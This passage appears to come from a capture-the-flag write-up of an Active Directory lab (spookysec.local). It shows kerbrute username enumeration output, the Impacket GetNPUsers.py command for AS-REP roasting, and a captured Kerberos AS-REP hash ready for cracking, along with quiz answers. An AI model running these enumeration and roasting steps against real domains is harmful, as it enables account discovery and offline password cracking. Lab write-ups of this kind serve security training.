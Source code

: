 ```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 11/02/23 - Ronnie Flathers @ropnop

2023/11/02 23:21:47 >  Using KDC(s):
2023/11/02 23:21:47 >   10.10.104.207:88

2023/11/02 23:21:48 >  [+] VALID USERNAME:       james@spookysec.local
2023/11/02 23:21:53 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2023/11/02 23:22:01 >  [+] VALID USERNAME:       James@spookysec.local
2023/11/02 23:22:03 >  [+] VALID USERNAME:       robin@spookysec.local
2023/11/02 23:22:33 >  [+] VALID USERNAME:       darkstar@spookysec.local
```

Answer: `svc-admin`

### What is the other notable account is discovered? (These should jump out at you)


Answer: `backup`

# Task 5 Exploitation Abusing Kerberos

### We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

Add the user accounts to asrepusers.txt:
```
svc-admin@spookysec.local
backup@spookysec.local
```

Edit hosts file to add domain

`python ~/Desktop/impacket/examples/GetNPUsers.py services.local/ -outputfile asrep -format hashcat -usersfile asrepusers.txt`

```
Impacket v0.12.0.dev1+20230803.144057.e2092339 - Copyright 2023 Fortra

$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:0abe8e1aea390918293d82adc68ac1e8$938cb9cfc4a36782e548b58719f25004f4384b66f59f21a1e729a018def3d5eb60eab7c157c642c523d3b8052fb938bea6c577766f00fd1efb052342c2e7b190484fb0d898787c7ea98833cafc43dc86c045539e975d0caa7cffcdede78bb53123d9927f0d8b5f7588cedee01b61944de24e012bead305fde7c6a54624f3c8eeae3856c3bcd347418b50142c7c353bf86324b043b2dcd74fcb74463a18a865222aa20c4f25b75371bb772d39f05dbbce11db2f4a243d61268fd71c6a303403af5ba9db45943ac58572855478a80cb3c5ffe4f952e1b941d7ae4371db13b4afac2892302b707722eed22931e896f1f62f34fe
[-] User backup@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
```
